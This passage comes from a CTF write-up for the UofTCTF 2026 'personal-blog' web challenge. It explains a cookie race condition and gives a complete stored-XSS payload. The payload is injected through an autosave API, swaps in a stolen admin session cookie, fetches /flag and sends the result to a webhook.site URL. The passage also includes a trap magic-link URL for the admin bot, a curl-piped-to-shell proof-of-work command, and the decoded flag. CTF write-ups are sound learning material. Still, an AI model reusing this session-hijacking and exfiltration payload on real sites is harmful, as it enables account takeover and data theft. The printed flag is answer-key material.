    - JS reads `sid_prev` (retrieving Admin rights).
    - JS wipes the Hacker session.
    - JS calls `/flag` as the real Admin.

---

Why did "Admins only" errors occur initially?

This is a **Race Condition** within the browser:

- When the Admin lands on the page, they have `sid=Hacker`.
- The XSS runs: `document.cookie = "sid=Admin"`.
- Immediately, `fetch('/flag')` is called.

Sometimes, the browser still sends the old cookie or sends both simultaneously. The server receives the request, sees the Hacker's cookie first, and denies access with "Admins only."

### The "Nuclear Payload" Fix:

We updated the exploit code to:

1. **Force-expire** the current cookie: `expires=Thu, 01 Jan 1970...`
2. Set the Admin cookie.
3. Use `setTimeout` to wait 1 second, ensuring the browser updates the cookie storage before calling `/flag`.

```jsx
`fetch('/api/autosave', {
  method: 'POST',
  headers: { 'Content-Type': 'application/json' },
  body: JSON.stringify({
    postId: 501, 
    content: `<script>
      (async () => {
        const cookies = document.cookie.split('; ');
        const prev = cookies.find(r => r.trim().startsWith('sid_prev='));
        
        if (prev) {
          const adminSession = prev.split('=')[1];
          
          // 1. Aggressively delete the current session (Attacker's session)
          document.cookie = "sid=; expires=Thu, 01 Jan 1970 00:00:00 UTC; path=/;";
          
          // 2. Set the Admin session
          document.cookie = "sid=" + adminSession + "; path=/";
          
          // 3. Wait for the cookie to "stick" before fetching
          setTimeout(async () => {
              const response = await fetch('/flag');
              const flag = await response.text();
              // Exfiltrate
              fetch('https://webhook.site/daed876e-d31e-405a-ac28-dd9d6e4e2c26?flag=' + btoa(flag));
          }, 1000); // 1 second delay
        }
      })();
    <\/script>`
  })
}).then(r => r.json()).then(console.log);`

*(Wait for `{ok: true}` in the console)*
```


**Trap URL to submit:**`http://localhost:3000/magic/<YOUR_TOKEN>?redirect=/edit/501`

*(Double check that `<YOUR_TOKEN>` matches the one currently in your `/account` page. If you generated a new one, update this URL).*




```jsx
┌──(kali㉿kali)-[~/Downloads/ctf/uoftctf2026/personal-blog]
└─$ curl -sSfL https://pwn.red/pow | sh -s s.AAATiA==.x6Q+AP/mHZBiyk0bpP+ciQ==
s.Z+QWtVYv0JjG7x4ElKc4sNSAUkwp5tdubDmzg/FbpHxUiqbL0IonGxQAnvVhvUso3Om0jOSxhmuYGwnD7HM6abdGH82mimkK1c09nkoyp5FZ2Oh9WbtFL9bbAJC4O9bcuZrVG25ZK0z0b6IDOxRrsKWRQLWoPHQ5M8VeDer8fCnH1EJtl2TK+A9IGDj28fj3RtjWJf4QNIZUEbKWZ8Rxvw==

```



```jsx
http://localhost:3000/magic/b361db7df5444b3fc467540e6e6c92ae?redirect=/edit/545

s.Z+QWtVYv0JjG7x4ElKc4sNSAUkwp5tdubDmzg/FbpHxUiqbL0IonGxQAnvVhvUso3Om0jOSxhmuYGwnD7HM6abdGH82mimkK1c09nkoyp5FZ2Oh9WbtFL9bbAJC4O9bcuZrVG25ZK0z0b6IDOxRrsKWRQLWoPHQ5M8VeDer8fCnH1EJtl2TK+A9IGDj28fj3RtjWJf4QNIZUEbKWZ8Rxvw==
```





```jsx
┌──(kali㉿kali)-[~/Downloads/ctf/uoftctf2026/personal-blog]
└─$ echo dW9mdGN0Zns1MzNNNV9sMWszXzE3X1c0c250XzUwX3AzcjUwbjQxLi4ufQ== | base64 -d
uoftctf{533M5_l1k3_17_W4snt_50_p3r50n41...}    
```